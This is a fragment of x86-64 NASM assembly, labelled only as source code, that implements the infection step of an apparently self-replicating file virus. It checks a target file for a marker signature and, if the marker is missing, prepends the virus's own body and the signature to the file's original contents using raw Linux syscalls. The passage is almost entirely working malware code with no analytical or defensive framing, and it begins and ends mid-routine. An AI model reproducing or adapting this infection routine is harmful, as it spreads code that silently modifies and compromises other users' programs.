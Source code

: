 ```nasm
    mov rdi, [rsp]
    mov rsi, self_size
    xor rdx, rdx
    syscall

    mov rax, 0x0
    mov rdi, [rsp]
    lea rsi, [rsp + 1100]
    mov rdx, vsignl
    syscall

    cmp rax, vsignl
    jl .infect

    lea rsi, [rsp + 1100]
    mov rdi, vsign
    mov rcx, vsignl
    rep cmpsb
    je .close

    .infect:
        mov rax, 0x8
        mov rdi, [rsp]
        xor rsi, rsi
        xor rdx, rdx
        syscall

        mov rax, 0x0
        mov rdi, [rsp]
        mov rsi, infected
        mov rdx, max_size
        syscall

        mov r15, rax

        mov rax, 0x8
        mov rdi, [rsp]
        xor rsi, rsi
        xor rdx, rdx
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, self
        mov rdx, self_size
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, vsign
        mov rdx, vsignl
        syscall

        mov rax, 0x1
        mov rdi, [rsp]
        mov rsi, infected
        mov rdx, r15
        syscall

    .close:
        mov rax, 0x3
        pop rdi
        syscall
```